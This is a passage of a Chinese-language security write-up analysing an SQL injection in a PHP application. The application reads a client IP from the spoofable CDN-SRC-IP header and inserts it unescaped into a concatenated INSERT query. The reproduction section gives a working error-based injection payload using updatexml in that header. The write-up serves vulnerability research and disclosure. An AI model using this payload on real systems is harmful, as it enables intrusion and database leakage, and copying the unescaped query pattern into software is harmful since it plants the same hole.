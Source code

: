 这里可以看到 `$ip` 的值可以由多个 `$_SERVER` 中的值得到，其他的值都不好伪造，但是我们可以伪造这个

```php
$ip = $_SERVER['HTTP_CDN_SRC_IP'];
```

查阅资料知道，我们可以通过添加 `header` 来伪造

```
CDN-SRC-IP: 127.0.0.1
```

这里没有规范他的输入，因此此处输入可控，最后进入 `$res = M('message')->add($w);`

```php
public function add($row)
{
   if(!is_array($row))return FALSE;
    $row = $this->__prepera_format($row);
    if(empty($row))return FALSE;
    foreach($row as $key => $value){
        if($value!==null){
            $cols[] = $key;
            $vals[] = '\''.$value.'\'';
        }
    }
    $col = join(',', $cols);
    $val = join(',', $vals);
    $table = self::$table;
    $sql = "INSERT INTO {$table} ({$col}) VALUES ({$val})";
    if( FALSE != $this->runSql($sql) ){
        if( $newinserid = $this->db->lastInsertId() ){
            return $newinserid;
        }else{
            $a=$this->find($row, "{$this->primary} DESC",$this->primary);
            return array_pop($a);
        }
    }
    return FALSE;
}
```

这个数据库代码没有什么过滤的地方，比较常规的数据库插入

## 0x03 漏洞复现

![](https://gitee.com/N0puple/nopic/raw/master/img/20210705223529.png)

很明显，可以报错注入，留个 `payload`

```sql
CDN-SRC-IP: 127.0.0.1' or updatexml(1,concat(0x7e,database(),0x7e),0) or '
```

## 0x04 总结
